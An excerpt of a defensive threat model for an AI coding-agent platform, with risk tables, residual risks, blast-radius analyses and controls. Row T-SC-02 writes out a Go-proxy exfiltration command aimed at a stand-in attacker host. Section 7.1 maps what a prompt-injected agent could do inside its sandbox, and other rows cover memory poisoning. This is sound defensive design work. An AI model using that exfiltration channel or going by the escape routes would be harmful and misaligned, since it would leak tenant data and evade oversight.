| T-SC-01 | Malicious dependency executes during install/build/test in QA or implementer runs (E) | L5 / I3 = 15 (it will happen at 300 jobs/day) | It runs inside the capability model: no egress except the mirror, gateway, MCP, S3 run prefix; no credentials of value (SC-23); curated mirror: new versions younger than 72 h are quarantined, known-malicious packages blocked, first-seen package names require the mirror's curation policy (SC-36) | L4 / I2 = 8 | Mirror block events; Tetragon unusual process trees in sandboxes (informational) | WS-02 (mirror), WS-09 (curation policy) |
| T-SC-02 | **Exfiltration through the package mirror's upstream fetches** (R2-003): `go list -m attacker.example/<encoded data>@latest` makes `proxy.golang.org` fetch `https://attacker.example/...?go-get=1` from the attacker's host. This is an HTTP callback to an arbitrary domain carrying about 7 KB/min, not a covert channel. npm and PyPI do not call back to an origin, but name-squatting plus download statistics is a slower variant (I) | L4 / I3 = 12 | Go: the Artifactory Go remote allows only module path prefixes on an allowlist (`github.com/<allowed orgs>/`, `golang.org/x/`, `google.golang.org/`, `gopkg.in/`, `go.opentelemetry.io/`, `k8s.io/`, `sigs.k8s.io/`, tenant additions) **for every tenant**; first-seen module paths are blocked for every tenant; private modules route by `GOPRIVATE` to repo-mirror, never to the public proxy; `GOFLAGS=-mod=mod`, `GONOSUMDB` unset, `GOSUMDB` on; a miss for a host outside the allowlist is a P2 security event. npm, PyPI, Maven, crates: resolver proxy per ecosystem (agent-capabilities §7) | L2 / I2 = 4 (residual: low-bandwidth timing and name-pattern channels through allowlisted hosts) | Mirror miss events by host; P2 on non-allowlisted host | WS-09, WS-02 |
| T-SC-03 | Poisoned shared dependency cache (one run writes a trojaned artifact others read) (T) | L4 / I4 = 16 if caches were writable | Shared caches are read-only to sandboxes, built by a trusted cache-builder pipeline from the mirror, content-addressed, per tenant isolation group; run-local caches die with the pod (SC-37) | L1 / I3 = 3 | Cache digest verification at mount | WS-02 |
| T-SC-04 | Compromised base image or CLI image (T) | L2 / I5 = 10 | Images built by Replicant CI from pinned upstream digests, signed (cosign with a KMS key), verified at admission in the exec cluster; bundles pin digests (D-03); CLI binaries verified against vendor checksums or signatures at image build; SBOM per image; eval gate before promotion (SC-38, SC-39) | L1 / I5 = 5 | Admission signature failures (P1) | WS-03 |
| T-SC-05 | Compromised Replicant code or config (malicious PR to the Replicant repo or config repo) (T) | L2 / I5 = 10 | Branch protection, CODEOWNERS from definition `owners`, signed commits for release branches, CI via GitHub OIDC with environment protection, two-person bundle promotion (SC-40, SC-42) | L1 / I5 = 5 | Audit of promotions | WS-06 |
| T-SC-06 | Malicious MCP server or tool added through a definition (T) | L2 / I4 = 8 | `mcpServers` in agent definitions may reference only allowlisted internal service names (C-DEF lint, WS-09); `allowManagedMcpServersOnly` in the sandbox | L1 / I3 = 3 | Registry lint | WS-03 |

### 4.5 Memory poisoning (T-MEM), with WS-04

| ID | Threat | L / I (inherent) | Controls | L / I (residual) | Detection | Owner |
|---|---|---|---|---|---|---|
| T-MEM-01 | A malicious or careless authorized reviewer's comment becomes an active rule (T) | L4 / I3 = 12 | Generalization test; repo scope by default; evidence threshold for broader scopes; admin curation (D-25); usage outcome evals auto-deprecate (WS-04) | L3 / I2 = 6 | Outcome regression per entry | WS-04 |
| T-MEM-02 | Prompt-injected content (in the PR or repo) flows into extraction (T) | L4 / I3 = 12 | Extraction reads only the human comment text and structured metadata, never repo files or agent output; content rules (no URLs outside allowlist, no tool-permission or safety-control instructions, no secrets); candidate state until curated | L2 / I2 = 4 | Content-rule rejections | WS-04 |
| T-MEM-03 | Compromised engineer account mass-writes comments to seed memory (T) | L3 / I4 = 12 | Write-volume anomaly per author; bulk disable by author and time window effective for new jobs at once; snapshot pinning gives blast radius | L2 / I3 = 6 | WS-04 anomaly alert | WS-04 |
| T-MEM-04 | Malicious Replicant admin activates a poisoned org-wide entry (T) | L2 / I5 = 10 | **Two-person rule** for activating tenant- or org-scope entries (recommendation to WS-04/WS-07, §6 R-06); every curator action audited to Object Lock | L1 / I4 = 4 | Audit review | WS-04 |
| T-MEM-05 | Cross-tenant memory leak through retrieval (I) | L3 / I3 = 9 | Scope filter first (tenant) in SQL plus RLS; memory MCP checks token tenant; org-scope entries are only those promoted by admins | L1 / I3 = 3 | MCP scope audit | WS-04 |

### 4.6 Approval bypass and confused deputy (T-APR), with WS-07

| ID | Threat | L / I (inherent) | Controls | L / I (residual) | Detection | Owner |
|---|---|---|---|---|---|---|
| T-APR-01 | Diff changes after approval (later repair, rebase, or a re-run) and ships under the old approval (T) | L4 / I4 = 16 | The packet records `diff_bundle.sha256`; `publisher.publish` refuses unless the bundle it pushes has that digest; rebase produces a new bundle, so the risk rules run again and a gate re-opens when they say so (D-19, SC-28) | L1 / I4 = 4 | `publish_digest_mismatch` events (P1) | WS-07, WS-01 |
| T-APR-02 | Requester approves their own risky change (E) | L4 / I3 = 12 | `requester_may_decide=false` default for `medium` and above (V9); approver needs write permission on the repo, checked live | L2 / I3 = 6 | — | WS-07 |
| T-APR-03 | Unlinked or spoofed identity approves via Slack or GitHub (S) | L3 / I4 = 12 | Slack v0 signing, GitHub HMAC; identity link proven by OAuth to the channel (not self-asserted); `identity.check_decision` at decision time (D-18) | L1 / I4 = 4 | Signature failure metrics | WS-07 |
| T-APR-04 | Confused deputy: user triggers work on a repo they cannot write, or pulls private repos into context they cannot read (E, I) | L4 / I3 = 12 | Intake checks group plus live repo write permission; each `additional_repos` entry needs live read permission; code search filtered by requester read permission (CCR-09-03) | L1 / I3 = 3 | Denied intake metric | WS-07 |
| T-APR-05 | Stale group membership approves (deprovisioned user) (E) | L3 / I3 = 9 | SCIM-backed live check per decision; no cached grants (D-25) | L1 / I3 = 3 | — | WS-07 |
| T-APR-06 | Approval fatigue: approver rubber-stamps (operational) | L4 / I3 = 12 | Risk-based routing, deterministic facts first, batching only for low risk (WS-07) | L3 / I3 = 9 | Time-to-approve under 10 s on high-risk gates | WS-07 |
| T-APR-07 | Repair triggered by a bot, Replicant itself, or an outsider's comment (S) | L4 / I3 = 12 | `identity.check_repair_trigger` (D-15): linked, org member, write or above, not a bot, not the App | L1 / I2 = 2 | — | WS-07 |
| T-APR-08 | Operator uses `requested_release_bundle_id` or a tenant override to route a job to a weaker bundle (gates removed) (E) | L2 / I4 = 8 | `release:pin` permission only for operators and eval; pins audited; bundles with relaxed gates must pass WS-06 tiers; derived bundles only tighten (ADR-013) | L1 / I4 = 4 | Audit alert on pins outside eval tenant | WS-06 |

### 4.7 Data exfiltration (T-EXF)

| ID | Channel | L / I (inherent) | Controls | L / I (residual) | Detection | Owner |
|---|---|---|---|---|---|---|
| T-EXF-01 | Direct network egress from the sandbox | L5 / I3 = 15 without controls | No internet route (subnet route tables), Cilium default deny, FQDN allowlist of internal names only (SC-04, SC-07) | L1 / I3 = 3 | Hubble deny events per run | WS-02 |
| T-EXF-02 | DNS tunneling | L4 / I3 = 12 | DNS proxy answers only allowlisted names (rules.dns `matchName`); direct VPC resolver blocked; Route 53 Resolver DNS Firewall on the exec VPC as a second layer | L1 / I2 = 2 | Refused-query counter per run | WS-02 |
| T-EXF-03 | Through the AI gateway to the model provider (prompt contents) | L5 / I2 = 10 | This is sanctioned processing. The gateway allows only bundle-pinned models; providers are contracted processors. The attacker cannot receive provider-side data | L5 / I1 = 5 (accepted) | Gateway request logs | WS-03 |
| T-EXF-04 | Through the PR itself: the agent copies secrets or another repo's code into a PR on a repo with a wider audience (public repos) | L3 / I4 = 12 | Secret scan blocks publish (SC-32); public target repos force a publish gate and forbid private `additional_repos` (SC-33); approver sees the diff | L2 / I3 = 6 | Scan findings | WS-07, WS-09 |
| T-EXF-05 | Through artifacts readable by a wider audience than the repo (transcripts, screenshots in Slack) | L3 / I3 = 9 | Presigned downloads only after the caller's job authorization (repo read); Slack messages carry links, not bodies; screenshots masked (WS-05/WS-08) | L2 / I2 = 4 | Presign audit | WS-07 |
| T-EXF-06 | Through package-mirror upstream fetches | see T-SC-02 | | | | |
| T-EXF-07 | Through memory candidates into other jobs | see T-MEM | | | | |
| T-EXF-08 | Through logs and traces to Loki and Langfuse readers | L3 / I3 = 9 | Redaction before ship (D-21); tenant users never query Loki directly (control-plane-api builds queries with a fixed `tenant` selector); Grafana and Langfuse operators-only, one Langfuse organization and project per environment; tenants of class `restricted` send **no spans** to Langfuse (the core gateway drops them by `LANGFUSE_EXCLUDED_TENANTS_REGEX`, XD-FIX-R2-009) | L2 / I2 = 4 | Redaction findings counters | WS-08 |

### 4.8 Insider misuse by operators (T-INS)

| ID | Threat | L / I (inherent) | Controls | L / I (residual) | Detection | Owner |
|---|---|---|---|---|---|---|
| T-INS-01 | Operator reads tenant payloads in the Temporal UI | L3 / I3 = 9 | Payloads encrypted with per-tenant data keys; the codec server decodes only for users authorized on that tenant and audits each decode (SC-21) | L2 / I2 = 4 | Decode audit volume per operator | WS-01 |
| T-INS-02 | Operator connects to Postgres | L3 / I3 = 9 | No standing access (D-26); break-glass with ticket, second approver for writes, 1 h, pgaudit plus SSM session logs (SC-19) | L1 / I3 = 3 | Every break-glass session pages security | WS-10 |
| T-INS-03 | Operator reads raw session state or workspace archives in S3 | L3 / I3 = 9 | `session` bucket readable only by the workflow's staging copy and break-glass; CloudTrail S3 data events on `session` and `audit` | L1 / I3 = 3 | Data-event alerts | WS-10 |
| T-INS-04 | Operator `kubectl exec` into a running sandbox, or reads Secrets | L3 / I3 = 9 | No human RBAC in the exec cluster except break-glass; `pods/exec` granted to nobody (SC-09) | L1 / I3 = 3 | API audit | WS-02 |
| T-INS-05 | Replicant admin plants or edits memory | see T-MEM-04 | | | | |
| T-INS-06 | Operator promotes a malicious bundle (prompt or CLI change) | L2 / I5 = 10 | Two-person promotion to prod; eval gate; signed provenance; audit to Object Lock (SC-42) | L1 / I4 = 4 | Promotion audit | WS-06 |
| T-INS-07 | Platform deployer changes IAM, KMS, or bucket policies | L2 / I5 = 10 | Changes only through the IaC pipeline with PR review; SCP denies IAM writes outside the pipeline role; KMS policies deny `PutKeyPolicy` outside it; Access Analyzer | L1 / I4 = 4 | CloudTrail + Config rules | WS-10 |
| T-INS-08 | Audit tampering | L2 / I4 = 8 | `audit.emit()` only, no UPDATE/DELETE; S3 Object Lock; CloudTrail to a separate log-archive account | L1 / I3 = 3 | Partition drop only by the migrate maintenance mode, audited | WS-08 |

### 4.9 Denial of wallet and resource exhaustion (T-DOW)

| ID | Threat | L / I (inherent) | Controls | L / I (residual) | Detection | Owner |
|---|---|---|---|---|---|---|
| T-DOW-01 | Runaway token spend in one run (loops, giant contexts) | L5 / I2 = 10 | Per-run budget enforced at the gateway (`budget_usd`), turn and wall-time limits, `GatewayBudgetExceeded` (SC-45) | L3 / I1 = 3 | Spend rate per run | WS-03 |
| T-DOW-02 | Many jobs triggered (label spam, schedule misconfig, maintenance fan-out) | L4 / I3 = 12 | Per-principal, per-repo, and per-tenant trigger rate limits; dedupe keys; fan-out caps; tenant daily budget; kill switches (SC-47, SC-48) | L2 / I2 = 4 | Trigger-rate alerts | WS-07 |
| T-DOW-03 | Repair loops driven by review comments | L4 / I2 = 8 | Debounce, repair budget per job (D-15), only authorized humans trigger | L2 / I1 = 2 | — | WS-01 |
| T-DOW-04 | One tenant starves others of sandbox capacity (noisy neighbor) | L4 / I3 = 12 | Runner admission quotas, ResourceQuota, priority classes with tenant-fair queueing (SC-46) | L2 / I2 = 4 | Queue wait per tenant | WS-02 |
| T-DOW-05 | Disk, memory, or PID exhaustion on a node | L4 / I2 = 8 | Hard workspace limit (ADR-014), memory limits, `pids` limits, Kata VM sizing | L2 / I1 = 2 | DiskPressure condition | WS-02 |
| T-DOW-06 | History or Signal flooding of workflows (compromised notifier or integration) | L2 / I2 = 4 | Authorizer restricts signal names (now verifiable, see [policies/temporal/authorizer.go](policies/temporal/authorizer.go)); frontend RPS limits; Signal limit 10,000/execution | L1 / I2 = 2 | `replicant_workflow_unknown_run_signals_total` | WS-01 |
| T-DOW-07 | KMS throttling causes credential issuance failure (self-inflicted DoS) | L2 / I3 = 6 | Quotas: 1,000 RPS shared for ECC Sign and for RSA Sign by default [verified: https://docs.aws.amazon.com/kms/latest/developerguide/requests-per-second.html, 2026-10-24]; demand is about 0.1 RPS for run tokens and under 2 RPS for GitHub JWTs (the broker caches the App JWT for up to 9 minutes). Alert at **30%** of the shared quota, not 80% (the KMS page's own prose example still cites 500/300 RPS; size against the table, R2 lens 6). Implementation (XD-W3-R1V-169, WS-08): CloudWatch alarm per account and region on the Service Quotas usage metric `AWS/Usage` `CallCount` for KMS divided by `SERVICE_QUOTA()` ≥ 0.30 for 5 minutes [verified: the KMS CloudWatch page points to this pattern, https://docs.aws.amazon.com/kms/latest/developerguide/monitoring-cloudwatch.html, 2026-10-24; exact dimension values unverified], plus SDK-side counter `replicant_kms_throttled_total{service, type}` (any increase over 5 minutes pages) | L1 / I2 = 2 | KMS usage-vs-quota alarm; `replicant_kms_throttled_total` | WS-02, WS-08 |

### 4.10 Other threats (identity, platform)

| ID | Threat | L / I | Controls | Residual | Owner |
|---|---|---|---|---|---|
| T-ID-01 | Webhook forgery (GitHub, Slack, Jira) | L4 / I3 | HMAC-SHA256 `X-Hub-Signature-256`, Slack v0 signatures with timestamp window, Jira JWT or shared secret; constant-time compare; dedupe | L1 / I2 | WS-07 |
| T-ID-02 | Okta session theft gives UI actions | L3 / I3 | Okta phishing-resistant MFA (FastPass/WebAuthn) for Replicant groups; short UI session (8 h, refresh-token rotation); step-up for high-risk approvals `[unverified: Okta step-up configuration specifics; WS-07]` | L2 / I3 | WS-07 |
| T-ID-03 | Dev GitHub App key leak | L4 / I2 | Dev apps are **private** ("can only be installed on the account that owns the app" [verified: https://docs.github.com/en/apps/creating-github-apps/registering-a-github-app/making-a-github-app-public-or-private, 2026-10-24]); a leaked dev key reaches only the developer's personal org; dev apps never get production webhook URLs or data | L4 / I1 | WS-07 |
| T-ID-04 | Temporal credential misuse by a worker (a compromised worker starts or signals arbitrary workflows) | L2 / I3 | Authorizer per-identity API allowlist ([authorizer.go](policies/temporal/authorizer.go)); workers have no Start/Signal by default | L1 / I3 | WS-01 |
| T-ID-06 | Local-only dev seed token (`svc_dev-seeder`, OQ-11-04) honored outside local through misconfiguration | L3 / I4 | Build-time exclusion from prod images, dev-key image signing rejected by prod admission, startup guard, identity-service deny, endpoint scoping, audit page ([secrets.md](secrets.md) §11) | L1 / I3 | WS-07, WS-11 |
| T-ID-05 | Cross-tenant read through the control-plane API (IDOR on job, artifact, gate IDs) | L4 / I3 | Authorization on every endpoint by resource tenant and repo permission; RLS as defense in depth; IDs are unguessable but never treated as authorization | L2 / I2 | WS-07 |

## 5. Attack trees (top three outcomes)

### 5.1 Goal: unreviewed malicious code reaches a protected branch

### 5.2 Goal: read tenant B's source code from a tenant A job

### 5.3 Goal: leak a secret found in a tenant repo outside its audience

See §7.2.

## 6. Accepted residual risks (each with an owner)

| ID | Residual risk | Why it is not fully controlled | Rating | Owner | Revisit when |
|---|---|---|---|---|---|
| R-01 | A novel VMM/guest-to-host escape reaches a shared sandbox node and reads co-located runs (other tenants' code, ≤ 60-min tokens) | Isolation runtimes had escapes in 2026; dedicated pools for all 40 tenants would cost ~40 × minimum pool size | L2 / I3 = 6 (medium) | WS-09 (accepts), WS-02 (operates) | A tenant classified `restricted`; escape advisory without a patch; >1 escape per year |
| R-02 | A compromised, MFA-bypassing approver account approves malicious code | Humans are the final authority (D-19) | L2 / I4 = 8 | WS-07 | — |
| R-03 | Low-bandwidth covert exfiltration through allowed channels (package-miss names, model prompts, timing) | Content inspection cannot be complete | L2 / I2 = 4 | WS-09 | Evidence of use |
| R-04 | A compromised runner-api can create STS sessions for any tenant's run prefix (tags are asserted by the Runner) and read those runs' `inputs/` | S3 cannot verify the run grant; the ABAC tags are the Runner's assertion | L1 / I4 = 4 | WS-09 | AWS supports external token validation in session policies, or the Runner moves STS vending behind a core-side broker |
| R-05 | Prompt-injected agent writes subtly malicious code that passes reviewer, verifier, and a human | Semantic review limits | L3 / I3 = 9 | WS-07 (gates), WS-06 (evals measure reviewer catch rate) | Reviewer catch rate on seeded-bug evals < 80% |
| R-06 | One Replicant admin can activate an org-wide memory entry alone (until WS-04/WS-07 adopt the two-person rule) | D-25 grants each admin full curation | L2 / I4 = 8 | WS-04 | Adoption of two-person rule (recommended) |
| R-07 | Model provider sees tenant code in prompts | Inherent to using hosted models (D-11) | accepted | Platform owner | Data-processing terms change |
| R-08 | Langfuse OSS lacks project-level RBAC, audit logs, and data-retention management (Enterprise features) [verified: https://langfuse.com/pricing-self-host, 2026-10-24]. Aligned with WS-08 (ADR-08-003, XD-FIX-R2-009): one organization and project per environment, operator-only access, retention sweeper (XD-FIX-R1-193), restricted tenants send no spans | D-17 requires OSS | L2 / I2 = 4 | WS-08 | Langfuse licensing |
| R-09 | A run's STS session stays valid for up to 1 h after the run turns terminal (STS sessions cannot be revoked individually; refresh stops at terminal) (R1-231, XD-00-07) | AWS STS semantics | L2 / I2 = 4: the session is usable only through the sandbox VPC endpoint and only on its own run prefix | WS-09 | AWS adds per-session revocation |

## 7. Must-answer questions

### 7.1 An agent is fully prompt-injected inside a QA run. What can and cannot it do?

Assumptions: role `qa`, workload class `qa_build`, network profile `qa-with-mirror` (reconciled catalogue, agent-capabilities §3: AI gateway only if agent tasks are on, repo-mirror, package mirror, container-image mirror, S3 run buckets, runner-sandbox, OTLP)
([policies/network/cnp-run-egress.qa-with-mirror.yaml](policies/network/cnp-run-egress.qa-with-mirror.yaml)),
Kata runtime, the QA agent (if WS-05 uses one) has `gateway:invoke` with a budget, and the QA
harness (the entrypoint) runs the build and test commands from the environment definition.

**It can:**

1. Run arbitrary code as the container's non-root user inside its VM, for at most
   `active_deadline_seconds`, within its CPU, memory, PID, and hard disk limits. With a guest-kernel
   exploit it can become root **inside the guest**. That gives nothing beyond the VM.
2. Read everything in its workspace: the target repo at `base_sha`, the diff bundle under test, and
   any `additional_repos` the requester was allowed to read. It can read its own `inputs/` prefix.
3. Install packages from the curated mirror (npm, PyPI, Go, Maven, crates, container base images).
   It cannot reach any other registry.
4. Call the AI gateway with its run token until `budget_usd` runs out, using only the models the
   bundle pins.
5. Write any content into its own run prefixes (artifacts, transcripts), up to `maxOutputBytes`.
   That includes misleading logs, notes, screenshots, and text aimed at later LLM readers.
6. Use Replicant services its role allows **through `replicant-agentd`'s loopback proxy** (WS-03 ADR-001): agentd holds the run tokens and refreshes them; the agent never holds or refreshes a token or an STS credential, and cannot take one out of the run without a guest-kernel exploit (then R-09 bounds the STS session).
7. Attempt to escape the VM (T-SBX-01..04). This is the one path to more, and it is why SC-02, SC-04,
   and R-01 exist.
8. Leak data at low bandwidth through package-name misses at the mirror (T-SC-02, R-03).

**It cannot:**

1. Push, open, or update a PR, comment on GitHub, or touch any repo: there is no GitHub credential
   in the sandbox, repo-mirror serves `git-upload-pack` only, and there is no route to GitHub.
2. Approve, steer, cancel, or otherwise message any workflow: it has no Temporal, Slack, or
   control-plane credentials, and gate validator V8 rejects non-humans.
3. Change the QA verdict: the harness computes pass/fail from the environment definition's commands
   and JUnit output; the QA run starts from a fresh checkout plus the approved diff bundle and its own
   edits are discarded; test deletions and skips are counted against `base_sha` and shown to the
   approver (T-PI-08).
4. Change the code that ships: QA produces no diff bundle the Publisher would accept. The Publisher
   pushes only the bundle whose digest the gate approved.
5. Read another run's or tenant's artifacts: the STS session's resource ARNs come from its own tags,
   and `ListBucket` is denied.
6. Use stolen AWS credentials anywhere but the sandbox S3 endpoint (`aws:SourceVpce` deny).
7. Reach memory-mcp or context-mcp (not in the QA profile), the Kubernetes API, IMDS, the Pod
   Identity agent, other sandboxes, the internet, or any DNS name outside the allowlist.
8. Write memory: QA runs produce no memory candidates, extraction never reads agent output, and the job's episode is templated facts with no free text, retrievable only after merge plus 24 h and never for unmerged or reverted jobs (XD-FIX-R2-008).
9. Persist: the workspace, the pod, and the VM are deleted at the end of the run; it cannot write to
   shared caches.
10. Exceed its budget or quota, or affect other tenants' capacity beyond its own resource limits.

### 7.2 A tenant's repo contains a secret. Where can it end up, and what stops it?

| # | Destination | How it gets there | What stops or contains it | Residual |
|---|---|---|---|---|
| 1 | repo-mirror cache (exec) | Fetch | Same audience as GitHub (per-tenant cache partition, token `repo_ids`) | None beyond GitHub |
| 2 | Sandbox workspace | Checkout | Run-scoped; deleted with the VM | — |
| 3 | Model provider via AI gateway | The agent reads the file into context | Sanctioned processing (R-07); the gateway does not log bodies by default (WS-03 to confirm) | Provider sees it |
| 4 | Transcript (`transcripts` bucket), CLI events | CLI output streams | Redaction before upload (`required`) with secret detectors (gitleaks rules plus entropy); `redaction.ruleset_version` in the manifest | Novel secret formats missed by detectors |
| 5 | Loki logs, Langfuse traces | Shipper | Redaction before ship (D-21); functional Loki tenants with a server-built `tenant` selector; Langfuse one org and project per environment, operators only; restricted tenants send no spans (XD-FIX-R2-009) | As 4 |
| 6 | `cli_session_state` (`session` bucket, raw) | Session capture | `raw-restricted`: never presented in UI, readable only by the same job's later runs and break-glass; deleted job end + 7 days | Present for ≤ 37 days, encrypted with the tenant key |
| 7 | Diff bundle → PR | The agent copies the secret into code or a test fixture | Verifier secret scan on the diff (`scan-block`): any finding blocks publishing, the job goes to a gate with the finding shown masked | Low: scanners miss novel formats |
| 8 | PR description, PR replies, GitHub check-run text | Agent-written prose | The same scanner runs on every text Replicant posts (github-integration pre-post scan) | As 7 |
| 9 | Briefing, Zoekt index | Indexing the repo | The index and briefings have the repo's audience: context-mcp returns results only from repos the requester can read (CCR-09-03) | Readers of the repo already have it |
| 10 | Memory | A reviewer quotes the secret in a comment | Memory content rules reject secrets (WS-04); extraction redacts | Low |
| 11 | QA artifacts (build logs, screenshots, Playwright traces) | App prints config | Redaction for text types; screenshots masked by selectors; traces are `required` redaction (WS-05/WS-08 must define how traces are redacted, see control-review G-14) | Medium: Playwright traces are hard to redact |
| 12 | Workspace archive (takeover) | Takeover | Delivered only to the requester (who can read the repo), presigned and audited, 30 days | Acceptable |
| 13 | Temporal payloads | Agent summaries in workflow state | Encrypted per tenant (SC-21); summaries ≤ 16 KiB are references in most cases | Operators with tenant authorization |

Detection: secret-scan finding counts per tenant; when the secret is valid and detected, Replicant
notifies the repo's security contact (CODEOWNERS of `SECURITY.md` or tenant admin) that the secret
exists in the repository, because the Replicant did not leak it, but found it.

### 7.3 What is the blast radius of a compromised Runner API?

`runner-api` (exec account, `replicant-runner` namespace) holds: KMS `Sign` on the run-token key;
`sts:AssumeRole` + `sts:TagSession` + `sts:SetSourceIdentity` on `replicant-<env>-sandbox-artifacts`;
`PutObject`/`PutObjectTagging` on run `inbox/` keys; `GetObject` on `inputs/manifest.json`, the run
`manifest.json`, `agentrun_record/*`, `inbox/*`, registry blobs and `bundles/*` pointers; `ListBucket`
on run `inbox/` and transcripts run prefixes (execution-evidence check); `GetObject` on the ops
kill-switch mirror; the **only write** to the `ops` exec revocation feed `exec-revocations/<env>/`
(Put, Get, List; C-RUNNER 3.0.0 obligation 5, C-ART 2.0.0); cluster-wide read of Namespaces and
AgentRuns, AgentRun `create`/`patch` and run Lease writes in every `sbx-*` namespace; the JWKS and
the `GET /v1/revocations` feed it serves
([policies/iam/runner-api.permissions.json](policies/iam/runner-api.permissions.json),
[tenant-namespace.yaml](policies/kubernetes/tenant-namespace.yaml)).

| Capability gained | With contracts as frozen | With WS-09 controls (CCR-09-01, CCR-09-02, VAPs) |
|---|---|---|
| Mint run tokens | For **any** tenant, run, `repo_ids`, scopes: read any tenant's repos via repo-mirror, any tenant's memory and code search via MCP, spend any gateway budget | Only for runs with a valid **core-signed run grant** (ADR-09-005). The attacker can mint tokens for runs currently granted (in flight), within each grant's `repo_ids`, scopes, budget, and expiry |
| Vend STS sessions | Write into any run prefix of any tenant; read any run's `inputs/` (task packets, briefings, memory injections, handoffs) | Unchanged: residual R-04. Detection: CloudTrail data events for `GetObject` on `inputs/` by sessions whose `replicant-run` tag is not an active run in Temporal |
| Create AgentRuns | Start sandboxes in any tenant namespace, with any registered agent/environment definition and any inputs manifest the attacker can stage (it cannot write `inputs/`: denied in its policy) | VAP binds namespace to tenant and buckets to the environment; images must be signed ECR digests; inputs must exist with the stated digest, and the Runner role cannot write them, so the attacker can only re-run legitimate inputs |
| Cancel or misreport runs | Cancel any run; the workflow trusts `GET /v1/runs` for status, so it can forge `Succeeded` with a `result_uri` | Forged results point to S3 objects the attacker can write through STS (R-04). The workflow additionally verifies the manifest's `producer.run_id` and that artifact keys are under the run prefix; the Publisher verifies the approved digest, so forged results cannot bypass the gate |
| Steering inbox | Inject "steering" into any run | Messages are user turns of a run that is already untrusted; capability unchanged |
| Exec revocation feed | Suppress revocations (stop writing, or rewrite the hour's object) so a terminal run's tokens stay usable until `exp`; or flood the feed to revoke live runs | Suppression is bounded by the core `/grants/revoked` list, which runner-api cannot write, and by the 60-minute token lifetime (refresh is refused after terminal). Flooding is a denial of service against in-flight runs only. Detection: feed entries vs AgentRun terminal transitions (reconciler) |
| Kill-switch mirror | Read only; it cannot engage or clear a switch (ops bucket writers are control-plane-api and the break-glass operator, CCR-09-12) | none |
| Temporal | none (no credentials; ADR-002) | none |
| Postgres, GitHub, Okta, Slack | none | none |
| Core cluster | Only via the PrivateLink listeners it is a client of: none (the Runner is a server; the notifier is separate) | none |

**What it cannot reach:** the GitHub App key, any installation token, Temporal, Postgres, the
control plane, approvals, the Publisher, memory writes, or any other AWS account resource. A
compromised Runner cannot push code or approve anything. Its worst case is **cross-tenant
confidentiality loss of in-flight runs' inputs and fetchable repos**, bounded by run grants to
"repos of currently running jobs" (CCR-09-02) or "all tenants' repos" without that change.

Detection: run tokens whose `grant_jti` is unknown or expired (verifiers reject and count);
AgentRuns without a matching Temporal workflow (reconciler compares `GET /v1/runs?terminal=false`
with open workflows every 5 min); STS `AssumeRole` count vs AgentRun count (CloudTrail metric
filter); Runner process anomalies (Tetragon).

Blast radius of the other high-value components:

| Component compromised | Worst case | Bounded by |
|---|---|---|
| agentrun-controller | Create pods in sbx namespaces (VAP restricts shape and images); read run Secrets (tokens of in-flight runs); read every object under in-flight and past run prefixes (C-ARCH 1.4.0 grants HeadObject, which S3 authorizes as `s3:GetObject`, so the role can also read content); write `agentrun_record` once per run | VAP; no STS, no KMS Sign; S3 reads bounded to run prefixes; write-once record enforced by `s3:if-none-match` |
| run-notifier | Garbage `run.status_changed` Signals; encrypt (never decrypt) Signal payloads under any tenant key | Hint-only semantics; Authorizer signal-name check; KMS GenerateDataKey only (C-ARCH 1.4.0) |
| repo-mirror | Serve tampered code to sandboxes (integrity: the diff is computed against `base_sha`, and the Publisher rebases on GitHub's real base, so tampered base content shows up as diff noise, not as hidden code); read all cached repos; read-only installation tokens for all installations ≤ 1 h | Broker mints `contents:read` only, per repo per request |
| github-token-broker | Mint any installation token with any App permission for any installation | Highest-value core component: KMS signing restricted to its role; no ingress except allowlisted callers; per-call audit; App permission set excludes `workflows`, `administration` |
| publisher-worker | Push to any branch of any installed repo it gets tokens for (not protected branches) | Branch protection; broker scopes per repo; audit |
| control-plane-api | Start jobs, send Updates as any user (forging `actor`) | Handler re-checks identity through identity-service (D-18); identity-service is a separate service with its own DB role |
| identity-service | Answer "allow" for any decision: approval bypass | Highest-value authorization component. Separate deployment, its own DB role, its own Okta client, no Temporal credentials; every allow is audited with the evidence (groups, permission response) so forged allows are detectable |
| replicant-worker (any version) | Run arbitrary activities: stage malicious inputs, call the Runner for any tenant, sign run grants (it holds the grant key) | Tenant-scoped data access through APIs; grants are signed for the workflow's own `tenant_id` and repos as recorded at intake (`intake.job_requests`), which the Runner checks |

## 8. Control catalog

Owner = the workstream that designs it. "WS-09" means designed in this section.

| ID | Control | Owner | Designed in |
|---|---|---|---|
| SC-01 | VM or user-space-kernel isolation for every sandbox (RuntimeClass `replicant-kata-clh` default, `replicant-gvisor` standby; `replicant-kata-fc` defined but disabled by policy); runc forbidden in sandbox namespaces | WS-02 | 02 runtime-evaluation; enforced by [vap-sandbox-pods.yaml](policies/kubernetes/vap-sandbox-pods.yaml) |
| SC-02 | Runtime hardening: containerd forwards no pod annotations to any sandbox runtime, Kata `enable_annotations = []`, sandboxed virtiofsd, no debug console, Kata ≥ 4.3.0 (GHSA-37rf-pj8c-g5g3); 72-hour patch SLA for runtime/VMM/kernel criticals; sandbox node lifetime `expireAfter: 72h` with pods annotated `karpenter.sh/do-not-disrupt` and NodePool `terminationGracePeriod: 9h`, so a node lives at most 81 h `[unverified: Karpenter v1 interaction of do-not-disrupt with expireAfter and terminationGracePeriod; WS-02 confirms]` | WS-02 / WS-09 | [kata-configuration-hardening.toml](policies/kubernetes/kata-configuration-hardening.toml), [tenancy.md](tenancy.md) §3 |
| SC-03 | Separate exec cluster (ADR-007) in a separate AWS account; PrivateLink-only crossings | WS-09 / WS-10 | [adr/001](adr/001-confirm-adr-007-exec-cluster-separate-account.md) |
| SC-04 | Sandbox node pools: no internet route, IMDSv2 hop 1 (SCP-enforced), minimal node role, host firewall, and tenant isolation groups (in v1: controller adds the selector and toleration from the namespace label, VAP enforces the match, one NodePool per group from WS-02's template; tenancy.md §3.2) | WS-02 / WS-09 | [tenancy.md](tenancy.md) §3, [scp.replicant-exec-account.json](policies/iam/scp.replicant-exec-account.json) |
| SC-05 | Pod-shape admission policy (non-root, drop ALL, no host namespaces or hostPath, no SA token, signed ECR digests, no runtime annotations, only the controller creates) | WS-09 | [vap-sandbox-pods.yaml](policies/kubernetes/vap-sandbox-pods.yaml) |
| SC-06 | AgentRun binding admission policy (namespace = tenant, environment buckets, creator identity) | WS-09 | [vap-agentrun-binding.yaml](policies/kubernetes/vap-agentrun-binding.yaml) |
